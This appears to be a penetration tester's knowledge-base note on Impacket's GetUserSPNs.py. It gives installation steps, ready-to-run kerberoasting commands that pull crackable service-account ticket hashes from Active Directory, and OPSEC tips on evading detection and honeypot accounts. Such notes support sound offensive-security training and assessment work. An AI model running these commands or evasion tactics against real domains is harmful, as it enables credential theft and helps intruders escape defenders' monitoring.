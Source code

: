 ```yaml
---
aliases:
  - impacket-GetUserSPNs
tags:
  - ⛏️
  - T1558003
primary categories:
  - "[[01 - Red Team]]"
  - "[[01 - Penetration Test]]"
secondary categories:
  - "[[02 - Active Directory]]"
  - "[[02 - Credential Harvesting]]"
  - "[[02 - Kerberoasting]]"
  - "[[02 - Post-Exploitation]]"
type: Tool
---
```

# [[GetUserSPNs.py]]

***
## Overview

[`GetUserSPNs.py`](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py) is a tool from the [Impacket](https://github.com/fortra/impacket) [Python](https://www.python.org/) module collection that automates [kerberoasting](https://attack.mitre.org/techniques/T1558/003/) attacks against user accounts associated with [service principal names (SPNs)](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names) in [Active Directory (AD)](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/virtual-dc/active-directory-domain-services-overview)[^1][^2]. If the service account password used to encrypt the returned [ticket-granting service (TGS)](https://csrc.nist.gov/glossary/term/tgs) ticket is weak, an attacker can recover its plaintext password by cracking the TGS hash output from `GetUserSPNs.py`.

## Requirements

* [ ] Attacker is on a \*nix-like machine with access to the target AD network
* [ ] Attacker has valid AD credentials
* [ ] Target user(s) are vulnerable to kerberoasting
	* [ ] Target user object(s) have a non-null  `servicePrincipalName` attribute

## Installation/Compilation

Before installing `GetUserSPNs.py`, ensure Python is installed:
```
# Debian/Ubuntu
sudo apt install python3

# Fedora
sudo dnf install python3
```

The easiest way to install `GetUserSPNs.py` is by installing the Impacket library via `pip`:
```
pip install impacket
```

Alternatively, clone the Impacket repository and install it locally:
```
git clone https://github.com/fortra/impacket.git
cd impacket
pip install .
```

On [Kali Linux](https://www.kali.org/), you can install the [impacket-scripts](https://www.kali.org/tools/impacket-scripts/) package. This makes the tools accessible in your `$PATH`, prefixed with `impacket-`:
```
sudo apt install impacket-scripts

impacket-GetUserSPNs -h
```

## Usage

Kerberoast all vulnerable users in a domain (you will be prompted for a password):
```
GetUserSPNs.py -request -dc-ip <dc-ipv4-address> <domain.full>/<user>
```

Kerberoast all vulnerable users and dump the output to a file:
```
GetUserSPNs.py -request -dc-ip <dc-ipv4-address> -outputfile <filename> <domain.full>/<user>
```

After retrieving a TGS ticket, you can attempt to crack the service account password using [Hashcat](https://hashcat.net/hashcat/) or [John the Ripper](https://www.openwall.com/john/).

## Operational Security (OPSEC)

Requesting TGS tickets for every SPN in a domain will likely raise alerts, especially if one or more SPNs are positioned as [honeypots](https://csrc.nist.gov/glossary/term/honeypot), accounts intentionally configured to detect kerberoasting attempts[^3]. These honeypot SPNs often appear legitimate but are closely monitored.

```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
Password:
ServicePrincipalName          Name         MemberOf  PasswordLastSet            LastLogon  Delegation
----------------------------  -----------  --------  -------------------------  ---------  ---------
MSSQLSvc/sql.domain.com:1433  mssql_svc              XXXX-XX-XX XX:XX:XX.XXXXX  <never>
HoneySvc/fake.domain.com      honey_svc              XXXX-XX-XX XX:XX:XX.XXXXX  <never>
```

If possible, ensure the requesting account appears plausible to a defender. For example, a sales employee requesting a TGS for a [Microsoft SQL Server](https://www.microsoft.com/en-us/sql-server) service is suspicious; using an IT or data steward account would appear more legitimate.

Additionally, avoid requesting all SPNs in bulk. Multiple SPN requests in a short window will appear as anomalous on a defender's radar, possibly leading to detection[^4]. Instead, identify individual accounts vulnerable to kerberoasting using [BloodHound](https://github.com/SpecterOps/BloodHound) or a similar tool, then request TGS tickets for a single target:
```
GetUserSPNs.py -request-user <target-user> -dc-ip <dc-ipv4-address> -outputfile <filename> <domain.full>/<user>
```

TODO: Add discussion about encryption types, the `(servicePrincipalName=*)` LDAP query, and ticket request parameters.

## Under-the-Hood

TODO: Inspect `GetUserSPNs.py` source code, analyze ticket exchanges in [Wireshark](https://www.wireshark.org/), and document detailed function flow.

## Help Menu

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

usage: GetUserSPNs.py [-h] [-target-domain TARGET_DOMAIN] [-no-preauth NO_PREAUTH] [-stealth] [-usersfile USERSFILE] [-request] [-request-user username] [-save] [-outputfile OUTPUTFILE] [-ts] [-debug] [-hashes LMHASH:NTHASH] [-no-pass] [-k]
                      [-aesKey hex key] [-dc-ip ip address] [-dc-host hostname]
                      target

Queries target domain for SPNs that are running under a user account

positional arguments:
  target                domain[/username[:password]]

options:
  -h, --help            show this help message and exit
  -target-domain TARGET_DOMAIN
                        Domain to query/request if different than the domain of the user. Allows for Kerberoasting across trusts.
  -no-preauth NO_PREAUTH
                        account that does not require preauth, to obtain Service Ticket through the AS
  -stealth              Removes the (servicePrincipalName=*) filter from the LDAP query for added stealth. May cause huge memory consumption / errors on large domains.
  -usersfile USERSFILE  File with user per line to test
  -request              Requests TGS for users and output them in JtR/hashcat format (default False)
  -request-user username
                        Requests TGS for the SPN associated to the user specified (just the username, no domain needed)
  -save                 Saves TGS requested to disk. Format is <username>.ccache. Auto selects -request
  -outputfile OUTPUTFILE
                        Output filename to write ciphers in JtR/hashcat format. Auto selects -request
  -ts                   Adds timestamp to every logging output.
  -debug                Turn DEBUG output ON

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)

connection:
  -dc-ip ip address     IP Address of the domain controller. If ommited it use the domain part (FQDN) specified in the target parameter. Ignoredif -target-domain is specified.
  -dc-host hostname     Hostname of the domain controller to use. If ommited, the domain part (FQDN) specified in the account parameter will be used
```

***
## Resources:

| Hyperlink                                                                                        | Info                                                   |
| ------------------------------------------------------------------------------------------------ | ------------------------------------------------------ |
| [GitHub - Impacket](https://github.com/fortra/impacket)                                          | GitHub repository for Impacket Python class collection |
| [Steal or Forge Kerberos Tickets: Kerberoasting](https://attack.mitre.org/techniques/T1558/003/) | MITRE ATT&CK entry for "Kerberoasting"                 |

[^1]: https://youtu.be/PUyhlN-E5MU
[^2]: https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1
[^3]: https://adsecurity.org/?p=3513
[^4]: https://research.splunk.com/endpoint/eb3e6702-8936-11ec-98fe-acde48001122/

***

*Created Date*: <%+tp.file.creation_date("MMMM Do YYYY (HH:mm a)")%>  
*Last Modified Date*: <%+tp.file.last_modified_date("MMMM Do YYYY (HH:mm a)")%>
